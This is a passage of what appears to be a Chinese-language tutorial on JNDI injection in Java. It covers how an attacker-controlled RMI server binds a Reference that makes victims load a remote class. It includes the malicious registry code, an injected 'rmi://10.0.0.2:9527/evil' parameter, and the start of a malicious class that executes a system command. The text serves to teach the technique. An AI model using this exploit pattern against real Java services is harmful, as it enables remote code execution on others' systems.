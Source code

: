   * 

    
    
    ?providerURL=rmi://10.0.0.2:9527/evil

但是问题来了，此时即使执行了evil所绑定的类，依然是在10.0.0.2上执行，无法影响到10.0.0.1，因此要引入一个新的概念

  

 **JNDI References**

  

在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象（当前名称目录系统之外的对象）。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引用，并且在目录中保存。当客户端在lookup()查找这个远程对象时，客户端会获取相应的object
factory，最终通过factory类将reference转换为具体的对象实例。

  

通过查阅References的源码，可以得知，其主要记录了如下信息

  *   *   *   * 

    
    
    protected String className;protected Vector<RefAddr> addrs = null;protected String classFactory = null;protected String classFactoryLocation = null;

其中classFactoryLocation实际上是LDAP或者RMI的地址  

  

 **真正的JNDI注入**

  

假设server地址为10.0.0.2，构造如下恶意RMI服务代码

  *   *   *   *   * 

    
    
    Registry registry = LocateRegistry.createRegistry(9527);Reference exec = new Reference("Exec", "Exec", "http://127.0.0.1:8080/");ReferenceWrapper refWrap = new ReferenceWrapper(exec);System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:9527/exec");registry.bind("exec", refWrap);

上述代码非常简单，主要是将/exec这个路径绑定到一个Reference上，而这个Reference指向127.0.0.1:8080/Exec.class,其中Reference的构造函数第一个参数是className,第二个参数是classFactory  

  

紧接着让我们构造Exec这个恶意类

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import java.io.ByteArrayOutputStream;import java.io.InputStream;import java.io.InputStreamReader;import java.io.OutputStream;  
      
    public class Exec {    public Exec() throws Exception{        String cmd = "whoami";        Process p = Runtime.getRuntime().exec(cmd);        InputStream is = p.getInputStream();        ByteArrayOutputStream baos = new ByteArrayOutputStream();  
      
            byte[] b = new byte[1024];        int a = -1;        while ((a = is.read(b)) != -1){            baos.write(b, 0, a);        }  
      
